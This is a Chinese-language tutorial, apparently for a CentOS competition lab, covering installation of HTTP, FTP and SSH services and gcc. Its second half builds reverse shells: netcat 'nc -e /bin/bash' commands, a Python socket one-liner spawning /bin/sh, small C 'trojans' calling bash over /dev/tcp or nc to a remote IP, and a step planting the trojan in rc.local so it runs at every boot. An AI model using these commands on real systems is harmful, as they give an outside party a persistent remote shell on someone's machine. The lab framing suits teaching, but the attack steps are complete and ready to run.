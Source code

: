 # centos比赛场景的服务器场景还原


### centos 自动联网
```shell
>>>cd /etc/sysconfig/network-scripts
>>>vi ifcfg-eth0 #修改ONBOOT=no 改为 ONBOOT=yes
>>>service network restart
```
### HTTP服务的安装
>下面是基础的使用知识，附赠一个php站点的搭建实例[dvwa搭建](http://blog.csdn.net/isinstance/article/details/54090936)
```shell
>>> yum install httpd 
>>> vim /etc/httpd/conf/httpd.conf #apache2的配置(题外话：apt-get install apache2　是一样的)
>>> echo "hello class" > /var/www/html/index.html #写一个首页
>>> service httpd restart

```

### FTP服务的安装

安装后要把chroot_list_enable=NO这样设置，不然就要指定chroot_list
```shell
>>>yum install -y vsftpd #安装ftp服务
>>>yum install -y lftp #安装测试ftp服务的工具
>>>vim /etc/vsftpd/vsftpd.conf
>>>service vsftpd start #启动ftp服务
>>>service vsftpd status #查看服务的状态
>>>lftp 127.0.0.1 #查看是否可以链接ftp
>>>lftp 127.0.0.1 -u root #指定用户登录
```


### SSH服务的安装

```shell
>>>yum install openssh*#安装ssh服务，对应的(apt-get install ssh)
```
```shell
vi /etc/ssh/sshd_config #打开配置文件
```
把下面两个配置的＃去掉
```shell
PermitEmptyPasswords no
PasswordAuthentication yes
PermitRootLogin yes　＃确保root可以登录，同理如果做安全加固，这里要注释掉
```
重启
```shell
service sshd.service restart #重启服务
chkconfig sshd on　#设置开机启动
```

### GCC的安装
>gcc是c语言程序的编译程序

```shell
>>> yum install gcc* 
```

### python
>python是自带的不需要安装。。

### nmap
>[nmap详解](http://blog.csdn.net/github_35068711/article/details/51530422)

### c语言编译
>这里面我们讲解一下c语言程序简单的编译技巧
首先安装gcc
```shell
>>> yum install gcc*
```
其次写一个c代码的文件hello.c
```c
#include<stdlib.h>
    int main(int argc,char **argv)
    {
        printf("Hello,Linux.\n");
        exit(0);
    }
```
对单个文件进行编译

```shell
>>>gcc -o hello hello.c
>>>./hello #执行
```

### nc反射
>nc全名是netcat　是一个网络工具，这里面我们使用它来完成我们的反射需要两个电脑

在自己电脑上开启一个端口监听
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> nc -e /bin/bash 192.168.1.101 8080 #在目标电脑上反向连接我们的电脑8080端口，ip是我们自己的ip
>>> ifconfig #在我们自己电脑上执行命令，这就可以对服务器进行操作了，这个叫反射
```
下面我们来完成一个python语言版本的shell反射
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
>>> ifconfig #在本机执行命令
```

### 下面完成我们的任务，编译一个木马，然后利用nc反射一个shell
先编写一个简单的反射shell的c代码
```c
#include<stdlib.h>
main()
{
system(“bash -i >& /dev/tcp/10.0.0.1/8080 0>&1”);
}
```
或者用下面的版本system.c，反正都是简单的实现
```c
#include<stdlib.h>
int main(int argc,char* argv[])
{
char shell_cmd[100];
sprintf(shell_cmd,"nc -e /bin/bash %s %s",argv[1],argv[2]);
system(shell_cmd);
}
```
### 下面我们来完成完成编译，执行，反射

```shell
>>> gcc -o shelltest system.c #编译c代码
>>> chmod +x shelltest
>>> nc -l -p 8080 #本地电脑监听8080端口
>>>./shelltest 127.0.0.1 8080 ＃目标电脑木马反向连接自己的电脑
>>> ifconfig #本地电脑执行命令验证结果
```
### 让我们把这个小“木马”放进开机启动
```shell
>>>chmod +x shelltest
>>>chmod +x /etc/rc.d/rc.local 
>>>vim /etc/rc.d/rc.local＃编辑它并在里面协商/xxx/xx/xx/shelltest　192.168.1.109 8080 &
>>>reboot #重启看看效果
```
